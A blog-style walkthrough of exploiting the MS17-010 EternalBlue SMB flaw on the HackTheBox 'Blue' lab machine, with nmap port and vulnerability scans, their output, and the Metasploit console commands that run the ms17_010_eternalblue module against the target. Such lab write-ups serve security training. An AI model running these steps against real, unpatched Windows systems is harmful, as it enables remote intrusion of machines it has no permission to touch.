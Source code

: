 ```yaml
---
layout: post
title:  "How to Hack Windows with EternalBlue"
description: "Using the NSA's EternalBlue exploit"
date:   2019-04-10
image:  "img/EternalBlue.jpg"
tags:   [Hacking Windows, Hacking from 0, Metasploit Framework]
---
```


Hello Hackers!!   
On April 8 of 2017, the group The Shadow Brokers after entering the systems of the NSA, to expose in their Github the tools they found.   

Within the filtered tools, there is an exploit (EternalBlue) that allows exploiting a vulnerability in the SMB protocol version 1, and of this way can execute Remote Code (RCE) on the victim machine gaining access to the system.  

  - Microsoft Bulletin: [MS17-010(Critical)](https://www.microsoft.com/en-us/msrc?rtc=1)  
  - Common Vulnerabilities and Exposures: [CVE-2017-0143](https://nvd.nist.gov/vuln/detail/CVE-2017-0143)  

**¿WHAT EFFECT HAVE THIS VULNERABILITY?**  
This vulnerability was used to propagate Ransomware Wanna Cry, which encrypted data from companies, and medical centers. To date, there are many variants of Ransomeware.  

## Hacking [Blue](https://www.hackthebox.eu/home/machines/profile/51)
Today we will learn how to exploit this vulnerability using Metasploit, for this demonstration an intrusion test will be performed towards the [Blue](https://www.hackthebox.eu/home/machines/profile/51) machine of the HackTheBox platform.

### Network Enumeration
Let’s start with a quick NMAP scan to discover open ports.  

{% highlight shell %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3673]
╰─[:)] # nmap -p- -sV -T4 -oN Blue.nmap 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 08:54 -05
Nmap scan report for 10.10.10.40
Host is up (0.39s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
{% endhighlight %}  

Apparently, the team is running the SMB service with port 445.  
We will continue listing this service, for this we will use nmap scripts specifically for the SMB service.  
SMB, is a network protocol that allows files, printers and others services to be shared between nodes of a network of computers that use the Microsoft Windows operating system.    
[Full Article](https://en.wikipedia.org/wiki/Server_Message_Block)

### Scanning vulnerabilities using Nmap scripts for an audit  
Nmap is highly recognized in the world of Informatic security for its functionality of scanning networks, ports and services. However, the tool has been improving over the years, offering more and more possibilities that are very interesting. Currently incorporates the use of scripts to check some of the most known vulnerabilities, Which are classified in:

  - Auth: Run all your scripts available for authentication
  - Default: Executes the default basic scripts of the tool
  - Discovery: Retrieve information from the target or victim
  - External: Script to use external resources
  - Intrusive: Uses scripts that are considered intrusive to the victim or target
  - Malware: Check for malicious code connections or backdoors (backdoors)
  - Safe: Executes the scripts not intrusive
  - Vuln: Discover the most known vulnerabilities
  - All: Runs absolutely all scripts with NSE extension available

To perform a search of the scripts related to SMB and use them with Nmap, we do the following: 

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # ls /usr/share/nmap/scripts/ | grep "smb-vuln"
smb-vuln-conficker.nse
smb-vuln-cve2009-3103.nse
smb-vuln-cve-2017-7494.nse
smb-vuln-ms06-025.nse
smb-vuln-ms07-029.nse
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-ms10-061.nse
smb-vuln-ms17-010.nse
smb-vuln-regsvc-dos.nse
{% endhighlight %}  


Let's try all the previous scripts for port 445 of the SMB service.

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # nmap --script=smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse -p445 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 09:24 -05
Nmap scan report for 10.10.10.40
Host is up (0.69s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
{% endhighlight %}  

Another way to evaluate the above is using the scripts of the category **vuln.**

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # nmap --script vuln -p445 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 09:22 -05
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.40
Host is up (0.20s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
{% endhighlight %}  


With the results of the previous scans, we were able to identify the following:

  - OS: Windows 7
  - Computer name: HARIS-PC
  - VULNERABLE smb-vuln-ms17-010

After identifying that our machine is vulnerable to EternalBlue, we are going to use a metasploit module that allows us to exploit this vulnerability.  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # msfconsole
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.10.40    <--> IP Victima
msf5 exploit(windows/smb/ms17_010_eternalblue) > run
{% endhighlight %}  

<script id="asciicast-239838" src="https://asciinema.org/a/239838.js" async></script>

In this way we can completely commit a computer with the Windows operating system, thanks to the exposed vulnerability.  

